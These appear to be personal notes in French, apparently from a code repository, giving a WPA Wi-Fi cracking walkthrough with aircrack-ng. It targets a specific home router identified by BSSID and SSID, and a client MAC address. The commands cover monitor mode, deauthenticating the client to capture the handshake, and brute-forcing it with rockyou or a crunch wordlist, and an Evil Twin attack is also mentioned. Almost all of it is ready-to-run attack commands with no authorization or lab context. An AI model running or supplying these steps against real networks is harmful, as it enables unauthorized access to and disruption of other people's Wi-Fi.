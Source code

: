 # Wifi

Observer le réseau avec wireshark en mode moniteur.

airmon-ng check kill //Check si les proccess n'empêche pas le mode moniteur
airmon-ng start wlx00c0caaa35a2 //passenmoniteur
airodump-ng wlx00c0caaa35a2 //Ecouter les réseaux wifi autour de soit.

choisir le BSSID de la cible. regarder de CH:
 8C:10:D4:F5:D8:8D  -58       91       19    0   1  130   WPA  CCMP   PSK  SFR-d887

airodump-ng -c 1 --bssid 8C:10:D4:F5:D8:8D -w /home/kasi/Desktop/ wlx00c0caaa35a2

Attendre que le Handshake arrive. //On observe le trafic.
On trouve un client actif :
8C:10:D4:F5:D8:8D : point d'accès
04:92:26:7A:EB:F7 : Adresse mac client

dans un nouveau terminal
aireplay-ng -0 1 -a 8C:10:D4:F5:D8:8D -c 04:92:26:7A:EB:F7 wlx00c0caaa35a2 //Déconnecter un utilisateur sur le réseau pour obtenir le handshake.

aircrack-ng -a2 -b BSSID -w /usr/share/wordlists/rockyou.txt /root/Desktop/*.cap

avec crunch :
crunch 8 25 azertyuiopqsdfghjklmwxcvbn0123456789 | aircrack-ng -w - -b 8C:10:D4:F5:D8:8D /home/kasi/Desktop/*.cap

Attaque avec Evil-Twin : on duplique le point d'accès pour sniffer un autre réseau : et le mot de passe WPA.
